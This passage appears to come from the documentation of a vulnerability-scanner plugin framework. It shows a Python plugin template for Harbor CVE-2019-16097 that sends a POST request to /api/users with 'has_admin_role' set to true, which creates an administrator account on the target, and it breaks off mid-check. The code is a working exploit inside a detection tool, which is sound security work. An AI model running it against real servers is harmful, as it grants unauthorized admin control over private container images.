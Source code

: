 ## 插件模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor1.7.6之前版本\r\nHarbor1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(Url, RandomAgent, UnixTimestamp):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
```